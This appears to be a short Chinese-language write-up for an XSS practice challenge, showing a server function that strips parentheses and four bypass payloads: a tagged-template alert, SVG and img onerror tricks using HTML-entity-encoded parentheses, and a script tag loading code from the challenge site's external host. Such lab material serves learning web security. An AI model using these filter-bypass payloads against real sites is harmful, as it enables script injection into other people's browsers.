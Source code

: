 ## server code:

```
function render (input) {
  const stripBracketsRe = /[()]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

## 分析:

```
过滤了(),想办法用其他方式代替()
```

## input code:

```
1. <script>alert`1`</script>
2. 
    利用html的字符实体和SVG。
    SVG意为可缩放矢量图形（Scalable Vector Graphics）。
    SVG 使用 XML 格式定义图像。
    <svg><script>alert&#x28;1&#x29;</script></svg>
 3. 利用外联
 <script src=https://xss.haozi.me/j.js></script>
 4. 利用img标签,结合onerrors事件,src资源不存在会触发错误。 
 <img src='' onerror="alert&#x28;&#x31;&#x29;">
 

```

## html:

```
1. <script>alert`1`</script>
2. <svg><script>alert&#x28;1&#x29;</script></svg>
3. <script src=https://xss.haozi.me/j.js></script>
4. <img src='' onerror="alert&#x28;&#x31;&#x29;">
```
